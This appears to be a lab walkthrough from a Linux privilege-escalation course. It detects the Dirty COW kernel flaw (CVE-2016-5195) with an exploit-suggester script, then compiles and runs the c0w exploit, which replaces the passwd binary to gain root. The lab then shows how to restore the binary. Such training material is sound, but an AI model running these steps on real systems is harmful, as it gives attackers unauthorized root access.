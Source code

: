 #Linux #PrivEsc #kernel #dirtycow #CVE-2016-5195 #gcc

[kernel-exploits](https://github.com/lucyoa/kernel-exploits)

# Detection  
Linux VM

1. In command prompt type:
	- `/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh`
2. From the output, notice that the OS is vulnerable to [dirtycow](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails). #dirtycow

# Exploitation
Linux VM

1. In command prompt type:
	- `gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w -static`
1. In command prompt type: `./c0w`

**Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.**

3. In command prompt type: `passwd`
4. In command prompt type: `id`

From here, either copy `/tmp/passwd` back to `/usr/bin/passwd` or reset your machine to undo changes made to the `passwd` binary
